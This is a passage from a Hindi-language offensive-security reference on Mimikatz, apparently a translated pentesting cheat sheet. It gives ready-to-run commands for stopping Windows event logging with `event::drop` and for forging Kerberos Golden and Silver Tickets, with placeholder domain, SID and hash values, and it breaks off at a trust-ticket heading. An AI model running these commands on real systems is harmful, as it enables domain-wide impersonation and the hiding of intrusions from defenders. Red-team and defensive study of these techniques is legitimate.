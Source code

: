 Mimikatz में इवेंट लॉग छेड़छाड़ में दो मुख्य क्रियाएँ शामिल हैं: इवेंट लॉग को साफ करना और नए इवेंट्स के लॉगिंग को रोकने के लिए इवेंट सेवा को पैच करना। नीचे इन क्रियाओं को करने के लिए कमांड दिए गए हैं:

#### इवेंट लॉग को साफ करना

- **कमांड**: यह क्रिया इवेंट लॉग को हटाने के लिए है, जिससे दुर्भावनापूर्ण गतिविधियों का पता लगाना कठिन हो जाता है।
- Mimikatz अपने मानक दस्तावेज़ में इवेंट लॉग को सीधे अपने कमांड लाइन के माध्यम से साफ करने के लिए कोई सीधा कमांड प्रदान नहीं करता है। हालाँकि, इवेंट लॉग हेरफेर आमतौर पर Mimikatz के बाहर सिस्टम टूल या स्क्रिप्ट का उपयोग करके विशिष्ट लॉग को साफ करने में शामिल होता है (जैसे, PowerShell या Windows Event Viewer का उपयोग करना)।

#### प्रयोगात्मक विशेषता: इवेंट सेवा को पैच करना

- **कमांड**: `event::drop`
- यह प्रयोगात्मक कमांड इवेंट लॉगिंग सेवा के व्यवहार को संशोधित करने के लिए डिज़ाइन किया गया है, प्रभावी रूप से इसे नए इवेंट्स को रिकॉर्ड करने से रोकता है।
- उदाहरण: `mimikatz "privilege::debug" "event::drop" exit`

- `privilege::debug` कमांड सुनिश्चित करता है कि Mimikatz आवश्यक विशेषाधिकारों के साथ सिस्टम सेवाओं को संशोधित करता है।
- फिर `event::drop` कमांड इवेंट लॉगिंग सेवा को पैच करता है।

### Kerberos टिकट हमले

### गोल्डन टिकट निर्माण

गोल्डन टिकट डोमेन-व्यापी पहुंच अनुकरण की अनुमति देता है। मुख्य कमांड और पैरामीटर:

- कमांड: `kerberos::golden`
- पैरामीटर:
- `/domain`: डोमेन का नाम।
- `/sid`: डोमेन का सुरक्षा पहचानकर्ता (SID)।
- `/user`: अनुकरण करने के लिए उपयोगकर्ता नाम।
- `/krbtgt`: डोमेन के KDC सेवा खाते का NTLM हैश।
- `/ptt`: सीधे मेमोरी में टिकट को इंजेक्ट करता है।
- `/ticket`: बाद में उपयोग के लिए टिकट को सहेजता है।

उदाहरण:
```bash
mimikatz "kerberos::golden /user:admin /domain:example.com /sid:S-1-5-21-123456789-123456789-123456789 /krbtgt:ntlmhash /ptt" exit
```
### Silver Ticket Creation

Silver Tickets विशिष्ट सेवाओं तक पहुँच प्रदान करते हैं। मुख्य कमांड और पैरामीटर:

- Command: Golden Ticket के समान लेकिन विशिष्ट सेवाओं को लक्षित करता है।
- Parameters:
- `/service`: लक्षित सेवा (जैसे, cifs, http)।
- अन्य पैरामीटर Golden Ticket के समान। 

Example:
```bash
mimikatz "kerberos::golden /user:user /domain:example.com /sid:S-1-5-21-123456789-123456789-123456789 /target:service.example.com /service:cifs /rc4:ntlmhash /ptt" exit
```
### Trust Ticket Creation
